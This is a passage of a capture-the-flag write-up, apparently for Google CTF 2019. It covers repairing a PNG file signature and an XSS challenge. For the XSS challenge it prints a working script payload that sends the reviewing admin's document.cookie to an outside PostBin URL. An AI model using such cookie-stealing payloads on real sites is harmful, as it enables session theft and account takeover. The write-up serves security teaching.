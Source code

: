 We can clearly see error message and after that a mention of `PNG`. Looking at the [PNG File Format](https://en.wikipedia.org/wiki/Portable_Network_Graphics), we realise that this header is a bit off and needs to be edited to start with the regular 8-byte signature - `89 50 4E 47 0D 0A 1A 0A`.

So using any kind of hex editor just delete the message upto the byte `89` and save the file. Now since we know this is *.png* file, let's open it with any image viewer:
![Home_cred.png](/images/ctf_images/google_2019/home_cred.png)

And there we go, got our Flag!

**Lesson Learned:**  always remember to extract file signature when dealing with unknown files formats ([Here's a search tool](http://file-extension.net/seeker/))

## <a name="government"> Government Agricultural Network - Web </a>
![government.png](/images/ctf_images/google_2019/government.png)

Alright we go to the given url to find a textbox with which we can apparently create a new post:
![government_site.png](/images/ctf_images/google_2019/government_site.png)

Trying some random text we and hitting the submit button we are led to this page:
![government_post.png](/images/ctf_images/google_2019/government_post.png)

Also this inspecting the request in developer tools we can see it's a `post` request:
![government_method.png](/images/ctf_images/google_2019/government_method.png)

Nothing much to see except the message tells us the admin will review the post shortly. This means that we can send data to the `admin` through this method and it will be evaluated, seems like a perfect ground for a [Cross Site Scripting (XSS) attack](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))!

> Tip: https://www.owasp.org is an excellent resource to learn about various exploitation techniques!

Okay let's use the help of [PostBin](https://postb.in/) to get output of our payload and create a new bin:
![government_bin.png](/images/ctf_images/google_2019/government_bin.png)

Now let's create our payload to send to the `admin`
```
<script>
 location.href = 'https://postb.in/1561983861427-6059538838453?cookie='+document.cookie;
</script>
```

When the `admin` reviews the post it gets directed to the bin of our choice with all the precious cookies that might contain some relevant information for us!

After posting our payload, let's see the output in our bin:
![government_flag.png](/images/ctf_images/google_2019/government_flag.png)

Well, looks like we got our Flag in some tasty cookies!
